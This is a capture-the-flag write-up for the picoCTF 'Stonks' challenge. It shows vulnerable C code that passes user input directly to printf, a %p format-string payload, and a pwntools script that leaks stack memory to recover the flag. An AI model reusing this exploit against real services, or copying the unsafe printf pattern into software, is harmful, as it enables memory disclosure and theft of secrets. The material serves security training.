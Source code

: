 ## Description
I decided to try something noone else has before. I made a bot to automatically trade stonks for me using AI and machine learning. I wouldn't believe you if you told me it's unsecure! vuln.c nc mercury.picoctf.net 16439

## Solution
In this challenge we are given a service that we should connect via nc.

let's try the service and see how it works:

```bash
$ nc mercury.picoctf.net 16439
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
1
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
test
Buying stonks with token:
test
Portfolio as of Wed Mar 13 13:07:07 UTC 2024


4 shares of JXP
1 shares of ZVM
2 shares of KO
14 shares of JBIW
10 shares of CXW
1 shares of W
84 shares of FQ
242 shares of KVVM
1031 shares of FNSI
Goodbye!


$ nc mercury.picoctf.net 16439
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
2

Portfolio as of Wed Mar 13 13:07:16 UTC 2024


You don't own any stonks!
Goodbye!

```
Seem like it doesn' do much. also we are given the source code for the service which is located at `vuln.c` file.
Looking at the source codes, below section gets our attention.

```c
int buy_stonks(Portfolio *p) {
	if (!p) {
		return 1;
	}
	char api_buf[FLAG_BUFFER];
	FILE *f = fopen("api","r");
	if (!f) {
		printf("Flag file not found. Contact an admin.\n");
		exit(1);
	}
	fgets(api_buf, FLAG_BUFFER, f);

	int money = p->money;
	int shares = 0;
	Stonk *temp = NULL;
	printf("Using patented AI algorithms to buy stonks\n");
	while (money > 0) {
		shares = (rand() % money) + 1;
		temp = pick_symbol_with_AI(shares);
		temp->next = p->head;
		p->head = temp;
		money -= shares;
	}
	printf("Stonks chosen\n");

	// TODO: Figure out how to read token from file, for now just ask

	char *user_buf = malloc(300 + 1);
	printf("What is your API token?\n");
	scanf("%300s", user_buf);
	printf("Buying stonks with token:\n");
	printf(user_buf);

	// TODO: Actually use key to interact with API

	view_portfolio(p);

	return 0;
}
```

As you can see, `user_buf` is directly inputed in `printf` which make it vulnerable to format string vulnerability.
So the attack scenario now is available, we should read values from stack till we get the flag which is Stored in `FLAG_BUFFER`.

let's verify if we are right by sending a simple payload like `%p`:

```bash
$ nc mercury.picoctf.net 16439
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
1
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
%p
Buying stonks with token:
0x98d7410
Portfolio as of Wed Mar 13 13:10:22 UTC 2024
```

ok let's try to read more values seperated with `.` and finaly put them together to get the flag:
**Note**: the values will be poped in little endian format. so remember to make it back:

```python
import struct
from pwn import *

p = remote('mercury.picoctf.net', 16439)
p.recvuntil('View my portfolio\n')
p.sendline('1')
p.recvuntil('What is your API token?\n')
payload = '%p.'*100
p.sendline(payload)
p.recvline()
leaked_values = p.recvline().decode().strip().split('.')
for item in leaked_values:
	try:
		print(bytes.fromhex(item[2:]).zfill(4)[::-1].decode('ascii'))
	except:
		pass
```
and running this python code will get us:
```bash
$ python solve.py
[+] Opening connection to mercury.picoctf.net on port 16439: Done
pico
CTF{
I_l0
5t_4
ll_m
y_m0
n3y_
c7cb
6cae
0000
[*] Closed connection to mercury.picoctf.net port 16439
```

